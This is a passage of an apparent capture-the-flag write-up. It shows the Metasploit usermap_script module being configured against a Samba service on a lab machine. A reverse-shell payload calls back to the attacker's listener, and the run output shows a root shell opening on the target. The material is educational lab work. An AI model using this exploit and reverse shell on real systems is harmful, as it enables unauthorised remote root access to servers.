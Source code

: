
Now I can check out the options and make sure everything looks right:

 
```
   msf5 exploit(multi/samba/usermap_script) > options
    
    Module options (exploit/multi/samba/usermap_script):
    
       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS  10.10.10.3       yes       The target address range or CIDR identifier
       RPORT   139              yes       The target port (TCP)
    
    
    Payload options (cmd/unix/reverse):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
       LPORT  443              yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
```

    

When I run this, it shows me that shell session opened, and then just sits at an empty line. But if I type commands into that line, I get results:

  
```
  msf5 exploit(multi/samba/usermap_script) > run
    
    [*] Started reverse TCP double handler on 10.10.14.24:443 
    [*] Accepted the first client connection...
    [*] Accepted the second client connection...
    [*] Command: echo zchdJVWjFG8sP3T3;
    [*] Writing to socket A
    [*] Writing to socket B
    [*] Reading from sockets...
    [*] Reading from socket B
    [*] B: "zchdJVWjFG8sP3T3\r\n"
    [*] Matching...
    [*] A is input...
    [*] Command shell session 1 opened (10.10.14.24:443 -> 10.10.10.3:37959) at 2019-02-28 08:52:31 -0500
    
    id
    uid=0(root) gid=0(root)
```
